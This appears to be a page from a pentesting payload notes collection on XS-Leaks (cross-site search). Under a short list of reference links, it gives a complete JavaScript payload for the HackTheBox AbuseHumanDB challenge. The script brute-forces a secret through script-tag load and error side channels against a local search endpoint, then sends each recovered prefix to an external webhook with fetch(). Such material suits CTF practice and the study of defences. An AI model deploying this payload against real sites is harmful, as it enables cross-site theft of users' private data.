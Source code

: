 ```yaml
---
title: XS-Leaks
sidebar: mydoc_sidebar
permalink: xs-leaks.html
folder: Payloads
---
```


Need to read:
- <https://xsleaks.dev/>
- <https://book.hacktricks.xyz/pentesting-web/xs-search>
- <https://sec.vnpt.vn/2022/02/xs-search/>
- <https://skelter.hashnode.dev/htb-abusehumandb-writeup>
- <https://medium.com/@skelter/htb-abusehumandb-661ea8acb5b6>
- <https://luchoane.medium.com/abusehumandb-hackthebox-write-up-bc0df5eef2ec>

Example: HTB - AbuseHumanDB

Payload

```html
<script>
var ip = '127.0.0.1:1337';
var hook = 'webhook.site/<your-id>';
var flag = 'HTB{';
var printable = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!@$%\"\'_';
var special = '_%\"\'';
var url = `http://${ip}/api/entries/search?q=`

async function getPartialFlag(char){
    return new Promise((resolve, reject) => {
        const script = document.createElement('script');
        script.src = url + encodeURIComponent(flag + char);
        script.onload = () => char==='}' ? reject(char):resolve(char);
        script.onerror = () => reject(char);
        document.head.appendChild(script);
    });
}

async function getFlag(chars) {
    for (let index = 0; index < 10; index++) {
        var brk = false; var char;
        for (var i = 0; i < chars.length; i++) {
            char = special.includes(chars[i]) ? '\\'+chars[i]:chars[i];
            await getPartialFlag(char).then((res) => { flag = flag.concat(res); brk = res=='}' ? true:false; i=0 } , (res) => {} );
            if(brk) break;
        }
        fetch(`http://${hook}/flag=${flag}`, {method: 'get'});
        flag=flag.concat('_');
    }
};

getFlag(printable);

</script>
```

